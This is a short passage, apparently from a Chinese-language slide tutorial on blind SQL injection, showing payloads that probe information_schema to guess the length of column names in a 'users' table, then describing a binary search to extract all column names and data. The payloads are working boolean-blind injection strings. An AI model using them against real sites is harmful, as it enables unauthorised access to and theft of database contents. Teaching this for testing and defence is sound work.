

接着挨个猜解字段名：
1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 # 显示不存在
…
1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 # 显示存在
说明users表的第一个字段为7个字符长度。
采用二分法，即可猜解出所有字段名。
第五步：猜解表中数据
继续用二分法